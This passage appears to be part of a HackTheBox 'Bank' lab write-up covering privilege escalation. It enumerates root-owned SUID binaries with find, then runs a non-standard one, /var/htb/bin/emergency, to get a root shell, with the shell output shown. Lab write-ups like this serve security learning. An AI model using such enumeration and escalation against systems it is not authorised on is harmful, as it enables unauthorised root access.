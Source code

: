# Escalate Privileges

```bash
find / -type f -user root -perm -4000 2>/dev/null
```
```bash
/var/htb/bin/emergency
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/bin/chsh
/usr/bin/passwd
/usr/bin/chfn
/usr/bin/pkexec
/usr/bin/newgrp
/usr/bin/traceroute6.iputils
/usr/bin/gpasswd
/usr/bin/sudo
/usr/bin/mtr
/usr/sbin/pppd
/bin/ping
/bin/ping6
/bin/su
/bin/fusermount
/bin/mount
/bin/umount
```

The first one is particularly interesting and non-standard, `/var/htb/bin/emergency`.
Running emergency just returns a root shell
```bash
www-data@bank:/$ /var/htb/bin/emergency                           
# id
uid=33(www-data) gid=33(www-data) euid=0(root) groups=0(root),33(www-data)
```
